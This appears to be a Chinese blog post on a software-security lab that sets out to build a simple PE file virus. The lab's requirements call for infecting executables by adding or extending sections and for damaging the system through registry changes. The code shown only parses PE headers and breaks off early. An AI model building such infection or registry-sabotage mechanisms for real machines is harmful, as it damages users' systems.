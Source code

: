 ```yaml
---
layout:     post   				    # 使用的布局（不需要改）
title:      软件安全-PE文件病毒		    # 标题 
subtitle:                 #副标题
date:       2020-01-30			# 时间
author:     Btbsja					# 作者
header-img: img/bg-2020-01-27.jpg 	    #这篇文章标题背景图片
catalog: true 						# 是否归档
tags:								#标签

    - 软件安全

---
```


# PE文件病毒

## 一、实验要求

完成一个简单的PE文件病毒核心机制的实现，具体要求如下：\
1、  自定义可执行文件的搜索范围；\
2、  要求能够自动识别PE文件类型；\
3、  利用节插入、节扩展或节添加（三者任选一种）方式完成病毒在PE文件中的感染机制；\
4、  根据你所学的注册表知识，利用注册表的系统调用API函数（创建键RegCreateKeyEx、打开一个键RegOpenKeyEx、读取键RegQueryValueEx、设置键值RegSetValueEx、删除键值RegDeketeKey）实现一种系统配置的修改，作为一种对系统使用过程中的病毒破坏机制；

## 二、实验步骤

**核心代码**

\#include \"main.h\"\
\#include \<afxdlgs.h\>\
CMyApp theApp;\
BOOL CMyApp::InitInstance()\
{\
    CFileDialog dlg(TRUE);\
    if (dlg.DoModal() != IDOK)\
    {\
        return FALSE;\
    }\
    //打开文件\
    HANDLE hFile = ::CreateFile(dlg.GetPathName(), GENERIC\_READ, FILE\_SHARE\_READ, NULL, OPEN\_EXISTING, FILE\_ATTRIBUTE\_NORMAL, NULL);\
    if (INVALID\_HANDLE\_VALUE == hFile)\
    {\
        return FALSE;\
    }\
    IMAGE\_DOS\_HEADER dosHeader;\
    IMAGE\_NT\_HEADERS32 ntHeader;\
    DWORD dwReturn;\
    BOOL bIsPe=FALSE;\
    ::ReadFile(hFile, &dosHeader, sizeof(IMAGE\_DOS\_HEADER), &dwReturn, NULL);\
    if (dwReturn == sizeof(IMAGE\_DOS\_HEADER))\
    {\
        if (dosHeader.e\_magic == IMAGE\_DOS\_SIGNATURE) //mz\
        {\
            if (-1 != ::SetFilePointer(hFile, dosHeader.e\_lfanew, NULL, FILE\_BEGIN))\
            {\
                ::ReadFile(hFile, &ntHeader, sizeof(IMAGE\_NT\_HEADERS32), &dwReturn, NULL);\
                if (dwReturn == sizeof(IMAGE\_NT\_HEADERS32))\
                {\